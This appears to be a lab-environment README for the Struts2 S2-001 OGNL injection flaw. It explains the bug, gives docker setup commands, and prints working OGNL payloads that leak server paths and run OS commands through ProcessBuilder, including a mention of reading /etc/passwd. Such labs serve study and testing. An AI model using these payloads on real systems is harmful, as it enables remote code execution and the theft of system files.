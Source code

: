 # S2-001 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

[http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> The vulnerability is that when the user submits the form data and the validation fails, the server parses the parameter values previously submitted by the user with the OGNL expression `%{value}` and repopulates the corresponding form data.For example, in the registration or login page. When submit fail, server will generally return the previously submitted data by default. Since the server uses `%{value}` to execute an OGNL expression parsing on the submitted data, it can send payload directly to execute command.

## Environment setup

Run the following commands to setup

```
docker compose build
docker compose up -d
```

## POC && EXP

Get the tomcat path:

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

Get the web site real path:

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

Execute command (command with parameter:`new java.lang.String[]{"cat","/etc/passwd"}`):

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](1.jpeg)
